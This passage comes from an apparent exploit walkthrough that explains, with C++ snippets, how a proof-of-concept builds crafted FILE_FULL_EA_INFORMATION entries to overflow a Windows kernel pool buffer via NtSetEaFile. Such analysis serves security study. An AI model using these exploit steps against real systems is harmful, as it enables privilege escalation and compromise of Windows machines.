 Now that we understand how the `payload` instantiation of `FILE_FULL_EA_INFORMATION` works, let's now examine how exactly the overflow occurs using the `overflow` instantiation of the `FILE_FULL_EA_INFORMATION` data structure:

```cpp
overflow = (PFILE_FULL_EA_INFORMATION)((UINT64)payload + (UINT64)(payload->NextEntryOffset));
```

Here, we see that the `FILE_FULL_EA_INFORMATION` data structure exactly after the `payload` pointer is then assigned to `overflow`. 

```cpp
overflow->NextEntryOffset = (ULONG)0x0;
```

Next, we see that the `NextEntryOffset` is then set to `0x0`, indicating that there are no other entries beyond `overflow`.

```cpp
overflow->Flags = (UCHAR)0x0;
```

As with `payload`, we set the `EaNameLength` member for `overflow` to the length of the *ExtendedAttribute* name, in the case for `overflow`, it's the length of `EANAME2` which is the string `bcd`. 

```cpp
overflow->EaNameLength = (UCHAR)strlen(EANAME2);
```

Next, the input argument `overflow_chunk_sz` is used to set the `EaValueLength`. According to Y3A's proof-of-concept, the value of `overflow_chunk_sz` is `0x18`. This is done to match the second `memcpy` operation for the size of the overflow chunk.

```cpp
overflow->EaValueLength = (USHORT)overflow_chunk_sz;
```

We then see that a `memcpy` operation is performed at `EaName` where the value `EANAME2` is copied of size `EaNameLength`.

```cpp
memcpy(overflow->EaName, EANAME2, overflow->EaNameLength);
```

Finally, we then perform a `memcpy` to overflow the first 0x10 bytes after the next pool header, which equates to 0x20 bytes. 

```cpp
memcpy(overflow->EaName + overflow->EaNameLength + 0x1, overflow_data, overflow_data_sz);
```

We then assign the target `file` the `payload` *ExtendedAttribute*. Before analyzing the arguments used, let's first look at the function prototype for `NtSetEaFile` from [NTInternals](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FNtSetEaFile.html): 

```cpp
NtSetEaFile(
  IN HANDLE               FileHandle,
  OUT PIO_STATUS_BLOCK    IoStatusBlock,
  IN PVOID                EaBuffer,
  IN ULONG                EaBufferSize
);
```
